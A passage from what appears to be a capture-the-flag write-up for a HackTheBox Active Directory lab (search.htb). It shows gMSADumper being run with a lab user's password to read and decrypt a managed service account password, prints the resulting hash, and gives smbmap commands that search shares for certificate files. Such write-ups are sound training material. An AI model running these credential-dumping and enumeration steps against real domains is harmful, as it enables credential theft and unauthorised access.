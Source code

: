 Further enumeration shows effective members of the group _ITSEC_ have the ability to read the GMSA password of _BIR-ADFS-GMSA_.

gMSADUmper is a python script that can be utilized to read the msDS-ManagedPassword \*\*\*\* attribute and decrypt with the **msDS-ManagedPasswordID** attribute.

**gMSADumper:** [https://github.com/micahvandeusen/gMSADumper](https://github.com/micahvandeusen/gMSADumper)

```
python3 gMSADumper.py -u 'sierra.frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' -d search.htb -l 10.10.11.129
```

![](<../../../.gitbook/assets/image (828).png>)

After successfully reading and decrypting the GMSA password we are left with the following credentials: `BIR-ADFS-GMSA$:::e1e9fd9e46d0d747e1595167eedcec0f`

However, from here I was unable to proceed with the credentials.

### Certificates

Going back to further enumeration we use `smbmap` to list available shares using Sierra's credentials and find some certificate files within the redirected folders share.

```
smbmap -H '10.10.11.129' -u 'sierra.frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' -d 'search.htb' -R -A "p12"
smbmap -H '10.10.11.129' -u 'sierra.frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' -d 'search.htb' -R -A "pfx" 
```

![](<../../../.gitbook/assets/image (677).png>)
